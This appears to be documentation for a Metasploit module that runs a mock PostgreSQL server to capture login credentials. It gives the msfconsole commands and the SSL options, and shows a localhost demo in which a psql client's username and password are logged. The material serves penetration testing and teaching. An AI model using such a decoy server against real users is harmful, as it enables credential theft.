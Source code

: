 This module creates a mock PostgreSQL server which accepts credentials.  Upon receiving a login attempt, a
`FATAL:  password authentication failed for user` error is thrown.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/server/capture/postgresql```
  3. Do: ```run```

## Options

  **SSL**

  Boolean if SSL should be used.  Default is `False`.

  **SSLCert**

  File path to a combined Private Key and Certificate file.  If not provided, a certificate will be automatically
  generated.  Default is null.

## Scenarios

### PostgreSQL Server and psql Client

Server:

```
msf > use auxiliary/server/capture/postgresql 
msf auxiliary(server/capture/postgresql) > run
[*] Auxiliary module running as background job 0.

[*] Started service listener on 0.0.0.0:5432 
[*] Server started.
[+] PostgreSQL LOGIN 127.0.0.1:49882 msf / pwn_all_da_tings / msf
```

Client:

```
root@kali:~# psql -U msf -h 127.0.0.1
Password for user msf: 
psql: FATAL:  password authentication failed for user "msf"
```
